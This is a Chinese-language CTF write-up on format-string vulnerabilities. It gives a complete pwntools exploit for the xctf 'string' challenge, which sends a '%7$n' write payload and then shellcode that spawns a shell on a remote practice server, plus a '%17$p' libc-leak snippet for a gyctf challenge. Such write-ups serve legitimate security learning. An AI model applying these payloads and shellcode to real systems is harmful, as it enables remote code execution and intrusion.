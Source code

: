 ```yaml
---
title: FormatString 
tags: [ctf-pwn,fmt]
date: 2023-10-23 13:48:00
categories: [ctf-pwn]
excerpt: xctf-pwn string
---
```


#### xctf string

![](/img/FormatString/1.png)

简单的格式化字符串

这道题目需要注意的点包括

1. 题目中用%x打印出来的地址，可以直接用`int(...,16)`来接收，不要用ljust那一套。。。（-_-||

2. 在利用格式化字符串漏洞的时候，如果用`p64(addr)  + %n(或者%p)...`时，要先保证addr没有`\0`

   就像这道题，我一开始就非得不用它那个%ld输入要写入的地址，就非要把x[0]的地址和后面那一串一起写进去，后果就是print(format)时候根本不会打印aaaa.....和%n，因为地址里有\0，直接停止了😭还在那看了好半天是不是地址的格式问题

3. `shellcraft.sh`用之前**一定要先指定平台 **` context(arch='amd64', os='linux')`

   

exp:

```python
from pwn import *

#p = process("./1d3c852354df4609bf8e56fe8e9df316")
p = remote("61.147.171.105", 58702)

context(arch='amd64', os='linux')

e = ELF("./1d3c852354df4609bf8e56fe8e9df316")

#gdb.attach(p, "b *0x400d36")

p.recvuntil(b"secret[0] is ")
x0 = int(p.recvuntil(b"\n")[:-1], 16)
print(hex(x0))

p.recvuntil(b"What should your character's name be:\n")
p.sendline(b"123")

p.recvuntil(b"So, where you will go?east or up?:")
p.sendline(b"east")
p.recvuntil(b"go into there(1), or leave(0)?:\n")
p.sendline(b"1")

p.recvuntil(b"\'Give me an address\'\n")
p.sendline(str(x0))

p.recvuntil(b"And, you wish is:\n")

payload = b'a' * 85 + b"%7$n"
#payload = b'aaaaaaaa' + b"%p%p%p%p-%p%p%p%p-%p%p%p%p-%p%p%p%p"
p.sendline(payload)

p.recvuntil(b"That's sound terrible! you meet final boss!but you level is ONE!\n")
p.recvuntil(b"Wizard: I will help you! USE YOU SPELL\n")

#shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'

shellcode = asm(shellcraft.sh())


p.sendline(shellcode)

p.interactive()
```



#### gyctf_2020_some_thing_interesting

<https://buuoj.cn/challenges#gyctf_2020_some_thing_interesting>

本地运行不起来，不知道是什么原因。

直接在栈上泄露返回`__libc_start_main`的偏移地址，算出libc

参考 <https://blog.csdn.net/mcmuyanga/article/details/114643601>

![](/img/FormatString/2.jpg)

```python
r.recvuntil("> Input your code please:")
r.sendline("OreOOrereOOreO%17$p")	#elf 11 libc 17

r.recvuntil("#######################\n")
r.sendline('0')
r.recvuntil("# Your Code is ")
r.recvuntil('0x')

start_main = int(r.recv(12), 16) - 0xf0
libc.address = start_main - libc.sym['__libc_start_main']
```



